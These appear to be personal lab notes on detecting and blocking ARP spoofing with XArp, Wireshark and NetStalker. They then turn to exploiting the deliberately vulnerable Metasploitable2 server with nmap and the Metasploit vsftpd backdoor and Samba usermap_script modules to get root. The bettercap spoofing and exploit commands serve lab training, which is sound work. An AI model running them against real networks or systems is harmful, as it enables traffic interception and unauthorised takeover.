


**Detection and Defence**

Tools: XArp
Install on the Windows VM
- Shows the IPs and MAC addresses of connected clients on the network

View network details:
```sh
ipconfig
```

```sh
arp -a
```

On our Kali machine we can run bettercap to see how XArp on the Windows machine responds.

Start bettercap
```sh
sudo bettercap -iface eth0
```

Check help menu
```sh
help
```

Get extended information on specific modules
```sh
help arp.spoof
```

Put spoof into full duplex mode so it interacts with both the access point and the Windows VM
```sh
set arp.spoof.fullduplex true
```

Manually set the target (the Windows VM)
```sh
set arp.spoof.targets <target-ip>
```

Start ARP spoof
```sh
arp.spoof on
```

In Xarp on the Windows VM the status now should change to detect the attack:



Now we can see that the ARP attack is effecting the access point or router, as well as the Windows VM. The Kali machine is also shown with a red cross. With this knowledge you can see exactly who is doing the ARP attack.
- ARP - Address Resolution Protocol

Xarp is useful when you are connected to a public Wi-Fi.

---

**Detecting attacks with WireShark**

On Windows:
Enable the settings in WireShark
- Edit Preferences > Protocols > ARP/RARP 
- Enable Detect ARP Request Storms
- Start capturing 

On Kali we can use bettercap again to start an attack:
```sh
sudo bettercap -iface eth0
```

Start net probe to discover the network
```sh
net.probe on
```

Net probe will bring up a lot of ARP requests in WireShark, on the Win VM, which could be an indicator that something malicious is happening.

Set to full duplex mode
```sh
set arp.spoof.fullduplex true
```

Set target
```sh
set arp.spoof.targets <target-ip>
```

Start spoofing
```sh
arp.spoof on
```

Optionally we can start sniffing
```sh
arp.sniff on
```

In WireShark we can get extra information by going into:
- Analysis > Expert Information

This screen will show if an ARP storm is detected. It also has a drop down menu that you can access that will show which IP is making the requests. If you look at one of the ARP packets it was also reveal the MAC address of the malicious user.

---

**Prevention**

Tools: NetStalker, npcap

1. Select network, for example ethernet
2. Click OK
3. Click scan
4. In this lab (VM) if you can't see the IP of the other machine, try changing network to NAT Network
5. Click the box for block to block the IP of the malicious user



Block will actually stop the IP from being able to use the internet and will put the device status into offline.

NetStalker also has a sniffing feature that you can use by first selecting the device in the menu.

---

**System Hacking**

All of this part is done using the intentionally vulnerable server metasploitable2.
Login credentials: msfadmin

To access the various things that the server has you can get the IP of the server and then enter it into a browser on Kali Linux.

Verify the server can be contacted on the Kali VM by utilising ping. This will verify that they are on the same netwrok.

Scanning the server with nmap to check for open ports and vulnerabilities:
```sh
nmap -T4 -A -v <target-ip>
```

**FTP**

The FTP has anonymous logging and appears to be an out of date version. After googling the version we find that metasploit has a module that installs a backdoor on the system via the out of date FTP version. 

Start metasploit
```sh
msfconsole
```

Set up the exploit
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

Show targets
```sh
show targets
```

Set target
```sh
set TARGET <target-id>
```

Options
```sh
show options
```
- set the options as required

Set IP of target
```sh
set RHOSTS <target-ip>
```

Run exploit
```sh 
exploit
```

This gives the root user with command execution. You could now make a new user and give it root privileges and a password so you could log into the system, or anything else that you want to do. 

**SMBD**

We once again copy and paste into google to find an exploit from Rapid7:

netbios-ssn Samba smbd 3.X - 4.X exploit
- https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

Use exploit
```sh
msfconsole
```

```sh
use exploit/multi/samba/usermap_script
```

```sh
show targets
```

```sh
set TARGETS <target-id>
```

```sh
show options
```

Show and set targets may make the set RHOSTS option unnecessary. It looks like there's an option for automatic but you'd probably be better off using the set RHOSTS instead.

```sh
set RHOSTS <target-ip>
```

```sh
exploit
```
- I don't have Kali insalled at the moment so i can't check, but i think run also works here as well as typing exploit.

This again gives us access to the root user fully compromising the system. 

Check you have the root user
```sh
whoami
```


